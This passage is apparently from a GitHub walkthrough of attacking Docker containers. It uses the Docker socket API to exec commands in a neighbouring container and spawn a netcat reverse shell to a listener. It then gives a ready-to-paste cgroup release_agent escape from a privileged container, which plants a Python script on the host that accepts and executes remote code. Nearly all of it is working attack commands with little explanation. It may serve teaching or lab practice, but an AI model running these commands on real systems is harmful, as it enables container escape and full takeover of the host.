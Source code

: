 10. Check IP address of C2:

	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["ifconfig"] }'`

	Copy the ExecID and paste in the next command.
	
	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'`

11. Open the shell listener on C1, on which C2 will send the reverse shell.

	`nc -lvp 8080`

12. Now, lets check if we are able to get complete access to C2, Moment of the truth! Run the netcat command from C2 and wait on C1 to recieve the shell.

	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["nc","-e","/bin/sh","172.17.0.3", "8080"] }'`

	Copy the ExecID and paste in the next command.
	
	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'`

-----

#### C. Comprimising Underlying OS:

##### Compromising underlying OS using SYS_ADMIN linux capability.

##### TL;DR

Paste the following commands in container C2 and jump to step 8.

	mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/child
	echo 1 > /tmp/cgrp/child/notify_on_release
	path=\`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
	echo "$path/exploit" > /tmp/cgrp/release_agent
	echo "#!/bin/sh" > /exploit
	echo python3 -c "'import socket; s=socket.socket(); s.bind((\"192.168.2.44\",1337)); s.listen(1);(r,z) = s.accept();exec(r.recv(999))'" >> /exploit
	chmod a+x /exploit
	sh -c "echo \$\$ > /tmp/cgrp/child/cgroup.procs"

#### Background: 

*Sometimes containers need to be run with extra privileges to perform some operations on the host operating system itself. These containers are run with --privileged flag which adds some special capabilities to the running container, however, it is not considered a best practice for the security of the system. Any user (or attacker) having access to the container can easily elevate his/her access to the underlying operating system.*
